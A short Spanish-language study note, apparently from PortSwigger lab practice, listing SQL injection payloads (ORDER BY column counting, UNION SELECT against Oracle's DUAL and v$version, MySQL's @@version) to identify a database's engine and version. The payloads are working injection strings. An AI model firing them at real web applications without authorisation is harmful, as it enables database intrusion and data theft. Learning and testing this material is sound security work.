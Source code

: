 # Identificar versión y motor de DB Oracle, MySQL y MSSQL 

Tags: #SQLi #PortSwigger #Oracle #MySQL #MSSQL #BurpSuite 


* [SQLi Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Conocer el numero de columnas 

```bash 
❯ input ' order by 2 -- -         # Conocer el número de columnas en la web, cambiando el valor hasta que no muestre un error o que cambie algo en la web 
```

## Ingresar valores en columnas en Oracle 

```bash 
❯ input ' union select 1,2 from dual -- -               # Ingresar los valores numericos o nulos (NULL) en cada columna, esto dependerá del número de columnas existentes 
❯ input ' union select "a",banner from v$version -- -   # Conocer la versión de la DB en Oracle     

Notas:
	1. La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las intalaciones de DB en Oracle 
```

## Ingresar valores en columnas en MySQL

```bash 
❯ input ' union select 1,2 -- -             # Ingresar los valores numericos o nulos (NULL) en cada columna, esto dependerá del número de columnas existentes 
❯ input ' union select "a",@@version -- -   # Conocer la versión de la DB en MySQL
```